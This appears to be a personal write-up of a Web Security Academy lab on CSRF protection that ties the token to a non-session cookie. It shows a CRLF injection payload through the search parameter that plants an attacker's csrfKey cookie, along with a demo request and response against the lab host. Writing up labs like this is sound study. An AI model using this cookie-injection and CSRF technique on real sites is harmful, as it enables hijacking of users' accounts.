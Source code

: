 # CSRF where token is tied to non-session cookie
Change the user's email address
## Observations
- Provided two accounts
- There is a ```csrfKey``` cookie which I haven't seen in other encounters. 
- I did a password change on the first account then logged into the second account in a private tab, copied the session token over the repeater for the first account's email change and found that the ```csrfKey``` cookie and the csrftoken value can be reused and aren't tied to the account; they just need to be valid. 
- Simply providing a CSRF payload via the exploit server doesn't work. So, there needs to be another way to deliver it. 
- Found that performing a search sets a cookie: ```Set-Cookie: LastSearchTerm=test; Secure; HttpOnly```
- What we can do is use the search function and a new line character to set the csrfKey value using the CSRF vuln.
```
test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```
URL decoded:
```
test
Set-Cookie: csrfKey=YOUR-KEY; SameSite=None
```
Demo request:
```
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=ngSY57IjtDNaUYgrZTbuOdRW3SifBlJ6%3b%20SameSite=None HTTP/2
Host: 0a0600e0042cd70a8165163700840060.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0600e0042cd70a8165163700840060.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Demo response:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=ngSY57IjtDNaUYgrZTbuOdRW3SifBlJ6; SameSite=None; Secure; HttpOnly
Set-Cookie: session=OkwBhswzrQCqKS40TENANyRRU4gpO49q; Secure; HttpOnly; SameSite=None
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3479
```
So, when a user visits the page and doesn't have that value set or has it set we can write/overwrite it. 
